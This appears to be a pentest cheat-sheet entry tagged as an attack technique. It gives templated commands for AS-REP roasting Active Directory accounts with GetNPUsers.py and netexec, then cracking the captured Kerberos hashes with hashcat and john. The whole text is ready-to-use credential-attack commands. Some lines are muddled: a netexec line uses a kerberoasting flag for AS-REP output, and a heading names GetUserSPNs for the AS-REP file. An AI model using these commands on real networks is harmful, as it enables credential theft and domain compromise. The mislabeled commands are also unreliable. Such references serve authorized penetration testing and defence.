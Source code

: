 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast
```
GetNPUsers.py -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```

## ASREPRoasting with nxc
```
netexec ldap <TARGETS> -u <USER> -p <PASSWORD> --kerberoasting ASREPRoastables.txt --kdcHost <KeyDistributionCenter>
```


## Crack ASREPRoast
```
hashcat -m 18200 --force -a 0 <hash_file> </path/to/wordlist>
```

## crack GetUserSPNs using john
```
john --wordlist=$wordlist ASREProastables.txt
```

